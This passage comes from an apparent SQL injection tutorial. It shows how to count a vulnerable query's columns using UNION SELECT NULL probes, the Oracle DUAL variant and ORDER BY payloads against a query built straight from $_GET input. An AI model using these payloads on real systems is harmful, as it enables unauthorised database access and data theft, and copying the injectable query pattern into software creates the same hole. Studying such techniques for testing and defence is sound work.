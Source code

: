 is valid while

```sql
SELECT name, price FROM products WHERE category = '' UNION SELECT NULL--'
```
or
```sql
SELECT name, price FROM products WHERE category = '' UNION SELECT NULL,NULL,NULL--'
```

are not.

> Note that in Oracle, you have to specify a table for each SELECT keyword, so none of the above queries are valid.
> Luckily, a build-in table called DUAL can be used for this purpose.
> So the injected queries on Oracle would need to look like: ' UNION SELECT NULL FROM DUAL--. 

#### Use `ORDER BY` keyword

Each column in a SELECT statement got an index starting from 1, and if we use ORDER BY on an non-existing index, database will return an error.

We can use this feature to check the number of columns in the original query.

Let's say the original query is:
```sql
SELECT name, price FROM products WHERE category = '$_GET['user_select']'
```

The attack payload looks like this:

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

If line 3 crash the page but line 2 doesn't, then the number of columns in the original query is 2.
This is because

```sql
SELECT name, price FROM products WHERE category = '' ORDER BY 2--'
```

is valid (the index of name is 1 and price is 2) while

```sql
SELECT name, price FROM products WHERE category = '' ORDER BY 3--'
```

is NOT valid(there are only two column selected).

Order By is more versatile (you don't have to worry about oracle) and you can apply binary search on it.

### Bypass limit 3: the table name and the column name

In order to find which method we need to get those names, we first need to get our sql engine version. 
